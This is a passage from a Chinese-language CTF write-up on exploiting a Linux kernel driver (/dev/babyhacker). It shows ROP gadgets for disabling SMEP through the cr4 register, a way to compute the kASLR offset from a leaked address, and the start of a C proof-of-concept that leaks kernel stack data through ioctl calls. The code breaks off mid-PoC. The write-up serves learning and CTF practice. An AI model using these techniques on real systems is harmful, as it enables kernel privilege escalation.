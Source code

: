 那么按照预期，程序应该会因为EIP处为`0xDEADBEEF`这个不合法地址而断电。

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-19-145744.png)

结果确实如此。

#### <a class="reference-link" name="Bypass%20SEMP%20&amp;%20Bypass%20kASLR"></a>Bypass SEMP &amp; Bypass kASLR

那么绕过`SEMP`的思路还可以使用我们之前所述的思路，首先导出并寻找可用的`gadget`

```
0xffffffff81004d70 : mov cr4, rdi ; pop rbp ; ret
0xffffffff8109054d : pop rdi ; ret
```

我们找到了这两个`gadget`之后还要想办法绕过开启的`kASLR`保护，这将导致我们无法得知这几个`gadget`的真实地址。

我们可以在启动`QEMU`时，暂时关闭`kASLR`，然后我们就可以得到程序返回地址的真实值。(将启动参数里的`kaslr`修改为`nokaslr`)

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-19-150612.png)

也就是`0xffffffff81219218`。

接下来我们开启`kASLR`，再次获取相同位置的值，然后我们可以得到如下计算公式：

```
0xffffffff81219218 + 固定offset = 获取到的随机加载地址
任意函数的物理地址 + 固定offset = 任意函数的实际加载地址
任意函数的物理地址 + 获取到的随机加载地址 - 0xffffffff81219218 = 任意函数的实际加载地址
```

那么我们可以构造如下PoC:

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stropts.h&gt;

uint64_t u64(char * s){
    uint64_t result = 0;
    for (int i = 7 ; i &gt;=0 ;i--){
        result = (result &lt;&lt; 8) | (0x00000000000000ff &amp; s[i]);
    }
    return result;
}

int main()
{
    char leak_value[0x1000];
    unsigned long Send_value[0x1000];
    int fd1 = open("/dev/babyhacker", O_RDONLY);

    ioctl(fd1, 0x30000, -1);
    ioctl(fd1, 0x30002, leak_value);

    // for(int i = 0 ; i * 8 &lt; 0x1000 ; i++ ){
    //     uint64_t tmp = u64(&amp;leak_value[i * 8]);
    //     printf("naddress %d: %pn",i * 8 ,tmp);
    // }
```